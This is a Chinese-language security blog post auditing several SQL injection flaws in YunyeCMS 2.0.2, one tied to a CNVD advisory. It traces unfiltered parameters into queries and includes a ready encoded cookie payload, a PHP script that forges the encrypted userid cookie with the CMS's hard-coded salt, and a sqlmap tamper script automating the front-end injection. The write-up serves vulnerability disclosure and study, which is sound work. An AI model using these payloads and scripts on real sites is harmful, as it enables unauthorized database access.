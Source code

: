 ```yaml
---
layout: post
title: 云业CMS的多处SQL注入审计分析
noToc: true
date: 2020-02-28 12:30:00 +0800
tags: WEB安全 漏洞分析 代码审计
cover: '../assets/yunye.png' 
---
```


### 云业CMS的多处SQL注入审计分析

#### 前言

某天挖完洞闲来无事浏览CNVD看到某CMS更新了一溜的SQL注入，似乎起了强迫症，于是准备分析一下，顺便填充一下工作内容（哈哈题外话请忽略），其实是个小众CMS,分析起来也不算难，后台的比较简单，主要看前台的。

![image-20200228115449573]({{site.baseurl}}/assets/images/YunyeCMS/1.png)

版本：2.0.2

#### SQL注入1-后台de***.php

对应CNVD编号：CNVD-2020-12871

漏洞出现在在后台文件de`***.php中，`de`***_add`函数对GET和POST参数先进行了是否empty判断，最终将传入的几个参数传给了edit_admin_department。

![image-20200226181005649]({{site.baseurl}}/assets/images/YunyeCMS/2.png)

跟入edit_admin_department，对参数依次进行了处理，但是发现只有`$departmentname,$olddepartmentname`进行了usafestr安全过滤，漏网的`$id`拼接到了sql语句中执行。

![image-20200226181643399]({{site.baseurl}}/assets/images/YunyeCMS/3.png)

最终导致了SQL注入。

![image-20200226182123595]({{site.baseurl}}/assets/images/YunyeCMS/4.png)

#### SQL注入二-lo***.php

这原本是在后台目录下但其实也是一个不需要验证后台登录的前台注入。

对后台文件的功能点分析。在`lo***.php`中功能adminlogin先获取了登陆者的ip,该ip参数的传参过程为`getip()->$logiparr->encode->$logipstr`然后拼接到$sql语句中lastip,中间并未进行其他过滤。

![image-20200226183451462]({{site.baseurl}}/assets/images/YunyeCMS/5.png)

再来查看getip()

![image-20200226183542111]({{site.baseurl}}/assets/images/YunyeCMS/6.png)

该函数返回获取的ip,而HTTP_X_FORWARDED_FOR为我们可控的http头部。

![image-20200227092133443]({{site.baseurl}}/assets/images/YunyeCMS/7.png)

![image-20200227093153347]({{site.baseurl}}/assets/images/YunyeCMS/8.png)

#### SQL注入3-roe.php

文件role.php同理对参数id没有进行过滤只进行了是否empty判断，最终在edit_admin_role中进行SQL查询。

![image-20200227183143211]({{site.baseurl}}/assets/images/YunyeCMS/9.png)

![image-20200227183219541]({{site.baseurl}}/assets/images/YunyeCMS/10.png)

根据查询结果返回存在或not exit是一个盲注直接丢入sqlmap秒出结果。

![image-20200227183444681]({{site.baseurl}}/assets/images/YunyeCMS/11.png)

同类问题的还有yunyecmsmodel.php等文件自行发现，直接附上结果。

![image-20200227184406505]({{site.baseurl}}/assets/images/YunyeCMS/12.png)

接着我们继续来看前台的。

#### 前台sql注入

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![image-20200228104938020]({{site.baseurl}}/assets/images/YunyeCMS/13.png)

经过了加密处理，根据解密算法**yunyecms_strdecode**可以在corefun.php找到对应的加解密算法

![image-20200228105314445]({{site.baseurl}}/assets/images/YunyeCMS/14.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![image-20200228105919061]({{site.baseurl}}/assets/images/YunyeCMS/15.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![image-20200228110210672]({{site.baseurl}}/assets/images/YunyeCMS/16.png)

`YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==`

payload生成代码front-test.php为：

```php
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	$retstr=base64_decode($string);
	$SHA1salt=substr(sha1($salt),0,35);
	$md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
	return base64_decode($retstr);
}
if ($_GET['cookie']) {
	$string=$_GET['cookie'];
	$userid=yunyecms_strdecode($string);
	echo $userid;
}
if($_GET['userid']){
	$string=$_GET['userid'];
	$cookie=yunyecms_strencode($string);
	echo $cookie;
}
```

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![image-20200228110858844]({{site.baseurl}}/assets/images/YunyeCMS/17.png)

跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![image-20200228103445978]({{site.baseurl}}/assets/images/YunyeCMS/18.png)

详细查看下该函数，直接进行了sql查询。

![image-20200228103529498]({{site.baseurl}}/assets/images/YunyeCMS/19.png)

附上截图

![image-20200228114420346]({{site.baseurl}}/assets/images/YunyeCMS/20.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![image-20200228153442956]({{site.baseurl}}/assets/images/YunyeCMS/21.png)

对应tamper的的脚本为

`yunyecms_front_sqli_tamp.py`

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
import hashlib
from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def md5(data):
	hash_md5 = hashlib.md5(data)
	md5data=hash_md5.hexdigest()[8:18]
	return md5data
def sha1(data):
	string_sha1=hashlib.sha1(data).hexdigest()[0:35]
	return string_sha1

def yunyecms_strencode(string):
	salt='~^y#u%n$y^e*c%m^s^~'
	return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
def tamper(payload, **kwargs):
    """
    Base64-encodes all characters in a given payload

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """

    return yunyecms_strencode(payload) if payload else payload
```

搞定完事~